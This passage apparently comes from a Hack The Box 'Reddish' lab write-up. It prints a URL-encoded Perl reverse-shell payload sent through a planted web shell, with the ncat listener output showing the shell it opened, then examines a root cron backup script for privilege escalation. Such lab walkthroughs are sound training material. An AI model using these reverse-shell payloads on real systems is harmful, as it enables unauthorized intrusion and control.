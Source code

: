 And Yes it worked.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-reddish/Untitled%2012.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-reddish/Untitled%2012.png)

I used various payload and only perl payload works again.

```bash
http://127.0.0.1/8924d0549008565c554f8128cd11fda4/wolf.php?wolf=perl%20-e%20%27use%20Socket%3b$i%3d%22172.19.0.3%22%3b$p%3d9000%3bsocket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22))%3bif(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,%22%3E%26S%22)%3bopen(STDOUT,%22%3E%26S%22)%3bopen(STDERR,%22%3E%26S%22)%3bexec(%22/bin/sh+-i%22)%3b}%3b%27
```

I got a shell in the new Container.

```bash
# ./ncat -lnvp 9000
Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
Ncat: Listening on :::9000
Ncat: Listening on 0.0.0.0:9000
Ncat: Connection from 172.19.0.4.
Ncat: Connection from 172.19.0.4:41462.
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

## Privilege Escalation

I uploaded pspy and checked for anything running suspicious and found a backup.sh running.

```bash
2020/08/19 10:57:01 CMD: UID=0    PID=1568   | sh /backup/backup.sh 
2020/08/19 10:57:02 CMD: UID=0    PID=1569   | rsync -a rsync://backup:873/src/backup/ /var/www/html/
```

`backup.sh`

```bash
$ cat /backup/backup.sh
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
```

It is saving the database using rsync, then removing the web folders and bringing them back in from a host named backup.

**What is rsync?**

